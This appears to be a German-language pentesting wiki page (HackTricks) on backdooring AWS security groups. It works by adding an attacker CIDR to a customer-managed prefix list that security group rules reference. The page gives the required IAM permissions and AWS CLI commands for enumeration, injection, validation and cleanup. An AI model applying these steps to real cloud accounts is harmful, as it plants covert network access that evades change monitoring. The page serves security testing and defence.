# AWS - Security Group Backdoor via Managed Prefix Lists

{{#include ../../../../banners/hacktricks-training.md}}

## Zusammenfassung
Missbrauch von customer-managed Prefix Lists, um einen unauffälligen Zugangsweg zu schaffen. Wenn eine Security Group (SG)-Regel auf eine managed Prefix List verweist, kann jede Person mit der Berechtigung, diese Liste zu ändern, stumm vom Angreifer kontrollierte CIDRs hinzufügen. Jede SG (und potenziell Network ACL oder VPC endpoint), die die Liste referenziert, erlaubt die neuen Bereiche sofort, ohne dass an der SG selbst etwas sichtbar geändert wird.

## Auswirkungen
- Sofortige Erweiterung der erlaubten IP-Bereiche für alle SGs, die die Prefix List referenzieren, wodurch Änderungskontrollen umgangen werden, die nur SG-Änderungen überwachen.
- Ermöglicht persistente ingress/egress Backdoors: das bösartige CIDR in der Prefix List verbergen, während die SG-Regel unverändert erscheint.

## Voraussetzungen
- IAM-Berechtigungen:
- `ec2:DescribeManagedPrefixLists`
- `ec2:GetManagedPrefixListEntries`
- `ec2:ModifyManagedPrefixList`
- `ec2:DescribeSecurityGroups` / `ec2:DescribeSecurityGroupRules` (um die angehängten SGs zu identifizieren)
- Optional: `ec2:CreateManagedPrefixList` falls zum Testen eine neue Liste erstellt werden soll.
- Umgebung: Mindestens eine SG-Regel, die auf die Ziel customer-managed Prefix List verweist.

## Variablen
```bash
REGION=us-east-1
PREFIX_LIST_ID=<pl-xxxxxxxx>
ENTRY_CIDR=<attacker-cidr/32>
DESCRIPTION="Backdoor – allow attacker"
```
## Angriffsschritte

1) **Enumeriere potenzielle prefix lists und deren Konsumenten**
```bash
aws ec2 describe-managed-prefix-lists \
--region "$REGION" \
--query 'PrefixLists[?OwnerId==`<victim-account-id>`].[PrefixListId,PrefixListName,State,MaxEntries]' \
--output table

aws ec2 get-managed-prefix-list-entries \
--prefix-list-id "$PREFIX_LIST_ID" \
--region "$REGION" \
--query 'Entries[*].[Cidr,Description]'
```
Verwende `aws ec2 describe-security-group-rules --filters Name=referenced-prefix-list-id,Values=$PREFIX_LIST_ID`, um zu bestätigen, welche SG-Regeln von der prefix list abhängen.

2) **Füge attacker CIDR zur prefix list hinzu**
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--add-entries Cidr="$ENTRY_CIDR",Description="$DESCRIPTION" \
--region "$REGION"
```
3) **Validierung der Propagierung zu security groups**
```bash
aws ec2 describe-security-group-rules \
--region "$REGION" \
--filters Name=referenced-prefix-list-id,Values="$PREFIX_LIST_ID" \
--query 'SecurityGroupRules[*].{SG:GroupId,Description:Description}' \
--output table
```
Der Datenverkehr von `$ENTRY_CIDR` ist jetzt überall erlaubt, wo die prefix list referenziert wird (häufig in ausgehenden Regeln von Egress-Proxies oder in eingehenden Regeln für gemeinsam genutzte Dienste).

## Nachweise
- `get-managed-prefix-list-entries` zeigt das Angreifer-CIDR und die Beschreibung an.
- `describe-security-group-rules` zeigt weiterhin die ursprüngliche SG-Regel, die auf die prefix list verweist (keine SG-Änderung protokolliert), dennoch gelingt der Datenverkehr vom neuen CIDR.

## Bereinigung
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--remove-entries Cidr="$ENTRY_CIDR" \
--region "$REGION"
```
{{#include ../../../../banners/hacktricks-training.md}}
